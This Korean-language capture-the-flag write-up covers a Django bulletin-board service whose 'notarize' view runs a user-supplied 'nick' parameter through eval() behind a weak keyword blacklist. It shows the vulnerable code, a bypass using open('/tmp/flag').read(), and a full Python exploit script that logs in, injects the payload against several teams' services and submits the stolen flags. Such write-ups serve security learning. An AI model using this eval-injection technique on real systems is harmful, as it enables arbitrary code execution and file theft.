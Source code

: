 # Service 5. Government

## Attack Vector and Vulnerability

Service5는 게시판서비스를 제공하고 있는데 유저 권한이 일반 유저와 Notarized 유저 2개로 구분이 된다. Notarize를 받기 위한 부분의 코드를 보면 nick이라는 값을 받고, 이 값을 eval하는 것을 확인 할 수 있다.

```python
def notarize(request):
    if request.method == 'GET':
        nick = request.GET.get('nick')
        if nick is None:
            nick = ''
        filtering = ['import', 'exec', 'eval', 'pickle', 'os', 'subprocess', 'sys', 'input']
        for f in filtering:
            if f in nick:
                nick = ''
                break
        if nick != '':
            nick = eval(nick)
        return render(request, 'bbs/notarize.html', {'nick' : nick})
```
위의 코드에서 볼 수 있듯이, 간단한 filtering을 통과하면 바로 eval을 통해서 임의의 python 코드를 실행시키게 된다. import나 os등이 막혀있기는 하지만, 우리의 목적은 flag파일을 읽는 것이기 때문에 open과 read함수를 통해서 파일을 열어서 키를 확인 할 수 있게 된다.

![exploit](img/govern_attack.png)


위의 그림처럼 임의의 파일을 열어 내용을 확인 할 수 있으모로, flag파일의 값을 읽어 키를 획득하였다.


## Exploit Script

```python
import requests
import os
import re
import time

ID = 'JeongOhKye'
PW = '123qwe'

fname = '/tmp/flag'

def get_csrf_token(r):
    m = re.search('name=.csrfmiddlewaretoken. value=.([^\'\"]+)', r.content)
    return m.group(1)

def ex(team):
    session = requests.Session()
    domain = 'http://localhost:80%d5' % team
    r = session.get(domain + '/bbs/login')
    token = get_csrf_token(r)
    payload = {'username': ID, 'password': PW, 'csrfmiddlewaretoken': token}
    r = session.post(domain + '/bbs/login/', data = payload )
    r = session.get (domain + '/bbs/notarize/?nick=open(%27/tmp/flag%27).read()')
    keyi1 = r.content.find("  (nickname : ")
    keyi2 = r.content.find(") ?</h1>", keyi1)
    key = r.content[keyi1+14:keyi2].strip()
    return key 

for i in (1,2,3,4,6):
    #try:
        flag = ex(i)
        os.system('python submit.py %d 5 %s' % (i, flag))
        print i, flag
    #except:
        pass
```

